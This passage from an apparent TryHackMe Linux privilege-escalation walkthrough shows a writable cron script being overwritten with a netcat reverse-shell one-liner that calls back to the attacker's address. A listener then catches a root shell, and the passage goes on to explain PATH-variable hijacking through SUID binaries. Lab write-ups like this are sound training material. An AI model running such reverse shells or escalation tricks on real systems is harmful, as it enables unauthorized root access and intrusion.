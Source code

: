 `/home/user4/Desktop/`

6. Lets replace the contents of the file with our payload using: "`echo [MSFVENOM OUTPUT] > autoscript.sh`"

```
user4@polobox:~$ echo "mkfifo /tmp/mrimb; nc 10.8.106.222 8888 0</tmp/mrimb | /bin/sh >/tmp/mrimb 2>&1; rm /tmp/mrimb" > /home/user4/Desktop/autoscript.sh 
user4@polobox:~$ cat /home/user4/Desktop/autoscript.sh 
mkfifo /tmp/mrimb; nc 10.8.106.222 8888 0</tmp/mrimb | /bin/sh >/tmp/mrimb 2>&1; rm /tmp/mrimb
```

`No answer needed`

7. After copying the code into autoscript.sh file we wait for cron to execute the file, and start our netcat listener using: "`nc -lvp 8888`" and wait for our shell to land!

```
bibo318@parrot:~/CTFs/tryhackme/Common Linux Privesc$ nc -nlvp 8888
listening on [any] 8888 ...
```

`No answer needed`

8. After about 5 minutes, you should have a shell as root land in your netcat listening session! Congratulations!

```
bibo318@parrot:~/CTFs/tryhackme/Common Linux Privesc$ nc -nlvp 8888
listening on [any] 8888 ...
connect to [10.8.106.222] from (UNKNOWN) [10.10.98.105] 43252
whoami
root
```

`No answer needed`

## Task 9 Exploiting PATH Variable

**What is PATH?**

PATH is an environmental variable in Linux and Unix-like operating systems which specifies directories that hold executable programs. When the user runs any command in the terminal, it searches for executable files with the help of the PATH Variable in response to commands executed by a user.

It is very simple to view the Path of the relevant user with help of the command "`echo $PATH`".

**How does this let us escalate privileges?**

Let's say we have an SUID binary. Running it, we can see that it’s calling the system shell to do a basic process like list processes with "ps". Unlike in our previous SUID example, in this situation we can't exploit it by supplying an argument for command injection, so what can we do to try and exploit this?

We can re-write the PATH variable to a location of our choosing! So when the SUID binary calls the system shell to run an executable, it runs one that we've written instead!

As with any SUID file, it will run this command with the same privileges as the owner of the SUID file! If this is root, using this method we can run whatever commands we like as root!
